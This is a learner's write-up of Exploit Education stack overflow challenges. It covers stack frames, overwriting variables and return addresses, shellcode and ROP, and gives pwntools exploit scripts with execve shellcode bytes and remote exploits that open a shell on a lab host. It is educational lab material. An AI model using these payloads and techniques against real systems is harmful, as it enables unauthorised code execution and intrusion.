





# Overview 

Stack buffer overflow was the scariest vulnerability in any application, but a lot of mitigations came out making it harder and harder to exploit, which reduces its danger a lot but it's possible to find it these days.

here I will start documenting my learning process for this vulnerability starting from the very beginning level.

I decided to start looking at the following six levels of [Exploit Education](https://exploit.education/).

# Important Concept

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

A small recap here for a very very important or it could be the most important thing that you need to master on dealing with `Stack Overflows`, which is `how data is pushed and poped to or from the stack?!`.

    note:
    that may become slightly different in less common calling conventions.

first when you start to call a function like "func" in the previous code what will happen? 
- the argument "0xdeadbeef" is pushed first(in x86 arch not x86_64).
- the call instruction itself will push the return address which is the address of the instruction after the call instruction.
- the ebp of the calling function is pushed then.
- the called function preserves a space on the stack for its local variables.

After the execution of the function is done, the last three steps are reversed.

- preserved space is released.
- ebp of the calling function gets poped
- Return address gets popped.

# level 0

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
I am using IDA because I love it:)



By looking at the stack setup done by the main function we have four variables, (var_60 , var_54 , var_50 , var_10)

here without looking at the source code we can tell that var_50 is an array of (0x50 - 0x10 = 0x40 (64)) byte then following it down (the stack is growing down) var_10 means if we can write data more than (64 bytes) we can write what we want to "var_10", there are also two mentioned variables that are used in this example to store some arguments passed to the function through registers(because it's x86_64 architecture) but can we overwrite them?!!!
the answer is no because they are higher in address than our buffer and we can only write down.

So based on our theory let's try to write if we can write more than 64 bytes We can change the value of the var_10 variable and solve this challenge, but how we can do that?!
here comes the vulnerability where the program uses `gets` to read input from the user to the buffer, the problem is that "gets" is a dangerous function because it doesn't check the user input length, so we literally can write as we want.

let us write a small script to do that.

```py
from pwn import *

payload = ''
payload += 'A'*64
payload += 'B'*8

print payload
```

in theory, this input should change the value of "var_10" to "0x4242424242424242", so let us see.

By setting a breakpoint after our input we can see the following address of "var_10" and its value.


and as we see we maneged to change the variable value to a value that we want.

    note: 
    this challenge just needs you to change it, The next challenge wants you to change it to
    specific value, so we solved both of them here.
    also, the third challenge is the same just the input will be through an environment variable.

# level 3

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Here the challenge is not about changing a local variable value but the concept remains the same, we just need to change the function pointer `fp` to point to the function we want to execute.

first, we need to get the function address, this is simple in IDA, just navigate to it, and here is it "0x000000000040069D".

A small modification to our exploit here.
```py
from pwn import *

payload = ''
payload += 'A'*64
payload += p64(0x000000000040069D)

print payload 
```
and it's done :)


# level 4

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
This level introduces an important concept, this time we don't have a function pointer to overwrite, but we have something that will always exist there, the `return address` that got pushed to the stack when calling the function.

Now we need to calculate the offset of that return address in our target function.



we can see "rbp" pushed after the return address directly, and then 50 bytes are reserved for two local variables which is our input, and another variable that will have the value of the return address after getting the input.

that means we have an offset of (0x50 + 0x8 = 0x58 (88)) bytes.
so let us modify our code.

```py
from pwn import *

payload = ''
payload += 'A'*88
payload += p64(0x000000000040061D)

print(payload)
```

# level 5

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

this level also introduces an important concept which is `shellcode`, there is nothing to jump to, so why not create one?! This one is called shellcode.

here we are writing the code we want to execute in the buffer and then returning to execute it.

you can find a lot of shellcode [here](http://shell-storm.org/shellcode/index.html)


```py
from pwn import *

shellcode = '\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload = ""
payload += '\x90'*30
payload += shellcode
payload += 'A'* (128 - len(payload))
payload += 'BBBBBBBB'
payload += p64(0x7fffffffdf90)

print(payload)
```
we can see here our code is executing.



# level 6

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This level is the last one on the phoenix machine for the stack, it's quite different and challenging, so let us start.

We can notice here that the buffer is 128 bytes, and we can only write 127 bytes to it(one null there), so how can we overwrite it?!
yeah, we can only write 122 bytes but after the already written bytes by the "what" string, there is an overflow happening with the size of the "what" string.

by looking at the code in IDA we can find that "what" is (0x22(34)) bytes, so what can we overwrite with that?!.

we have a total write of (43+127 = 161).
There is a variable "s" with 8 bytes over our buffer, so we can write on 169 of the frame which is one byte after the frame, which means we can overwrite one byte only in the saved ebp if the calling function.


remember that this is used in the calling function as "ebp+8" is the return address of that function.

so using this payload

```py
from pwn import *

shellcode = '\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload = ""
payload += '\x90'*30
payload += shellcode
payload += 'A'* (118 - len(payload))
payload += p64(0x2222222222222222)
payload += '\x60'

print(payload)
```

we can see that we successfully overwrited RIP.


<h1> Level up </h1>

Now we can go further and level up our challenges a little bit as we can deal with the basics.

We are going to solve stack challenges on [Exploit Education](https://exploit.education/fusion/)

# level 00

```c
#include "../common/common.c"    

int fix_path(char *path)
{
  char resolved[128];
  
  if(realpath(path, resolved) == NULL) return 1; 
  // can't access path. will error trying to open

  strcpy(path, resolved);
}

char *parse_http_request()
{
  char buffer[1024];
  char *path;
  char *q;

  printf("[debug] buffer is at 0x%08x :-)\n", buffer);

  if(read(0, buffer, sizeof(buffer)) <= 0)
    errx(0, "Failed to read from remote host");
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

  path = &buffer[4];
  q = strchr(path, ' ');
  if(! q) errx(0, "No protocol version specified");
  *q++ = 0;
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

  fix_path(path);

  printf("trying to access %s\n", path);

  return path;
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *p;

  background_process(NAME, UID, GID); 
  fd = serve_forever(PORT);
  set_io(fd);

  parse_http_request(); 
}
```

We can see that we are required to exploit a remote service over the network, This service requires a properly formatted "GET" request but that seems it's not checking the "path" length before copying it in the "resolved" buffer.



above is the stack frame of the vulnerable function, we can see that to overwrite the return address there is an offset of (0x88(buffer offset to ebp) + 4 (ebp size) + 4 (saved ebp size) = 0x90 (144)) bytes then comes the return address.

"realpath" function will interrupt our shellcode so writing the shell code after the return address will be a good idea.

```py
#!/usr/bin/env python3

import pwn

io = pwn.remote("192.168.132.133", 20000)

target = pwn.p32(0xbffff8f8 + 157) # jump after the buffer

shellcode = pwn.asm(pwn.shellcraft.sh())

payload  = b"GET /" + b"A"*139
payload += target
payload += b" HTTP/1.1"
payload += shellcode

print(io.recv().decode())
io.sendline(payload)
io.interactive()
```

# level 01
```c
#include "../common/common.c"    

int fix_path(char *path)
{
  char resolved[128];
  
  if(realpath(path, resolved) == NULL) return 1;
  // can't access path. will error trying to open
  strcpy(path, resolved);
}

char *parse_http_request()
{
  char buffer[1024];
  char *path;
  char *q;

  // printf("[debug] buffer is at 0x%08x :-)\n", buffer); :D

  if(read(0, buffer, sizeof(buffer)) <= 0)
    errx(0, "Failed to read from remote host");
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

  path = &buffer[4];
  q = strchr(path, ' ');
  if(! q) errx(0, "No protocol version specified");
  *q++ = 0;
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

  fix_path(path);

  printf("trying to access %s\n", path);

  return path;
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *p;

  background_process(NAME, UID, GID); 
  fd = serve_forever(PORT);
  set_io(fd);

  parse_http_request(); 
}
```

the code for this challenge is the same but this time [`ASLR`](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is enabled, which means the address of the buffer will be different each time the application is executed.

here is Introduced a new and important concept `ROP` that will require you to read a little bit, but let us talk quickly about its main concepts.


## Return Oriented Programming

In the problem discussed before that happened because of the "ASLR"  enabled we can't get our buffer's address to return to so we can try to find a place where the "ASLR" isn't applied to start execution there and the executed instruction should move the execution back to our input, this bridge is named "Gadget" it can be only one or multiple ones.

let us debug the application to make it clearer.

first, we need to attach gdb to the running process(root privileges needed) then set "follow-fork-mode" to child to debug the child that will be spawned, then butting a breakpoint at the end of "fix_path" function.

looking at the register I found that the only register points after the buffer is "esi"


So I tried to find a gadget like "jmp esi" but the only one I found is "jmp [esi-0x77]" which is inside the buffer and we can't do that (because of the forbidden characters).


Another way here is to modify the value of an existing register first then jump to it, I searched for a gadget to modify the "esi" register but I didn't find a suitable one but I found an interesting one for "esp".



here we need to recalculate our offsets to add extra padding.

"esi" has the end of the buffer " http/1.1"

offset = esp + 0x230 + 4 (ret) - esi + 12 (pops)

0xbfeb3e2c + 0x230 + 4 + c - 0xbfeb3ee5 = 0x187 (391)

```py
#!/usr/bin/env python3
 
from pwn import *
 
io = remote("192.168.132.133", 20001)
 
payload  = b"GET /" + b"A"*127 
payload += b"B"*12
payload += p32(0x0804905f) 
payload += b" HTTP/1.1"
payload += b"\x90"*391
payload += p32(0x08049f4f) 
payload += asm(shellcraft.sh())
 
io.sendline(payload)
io.interactive()
```

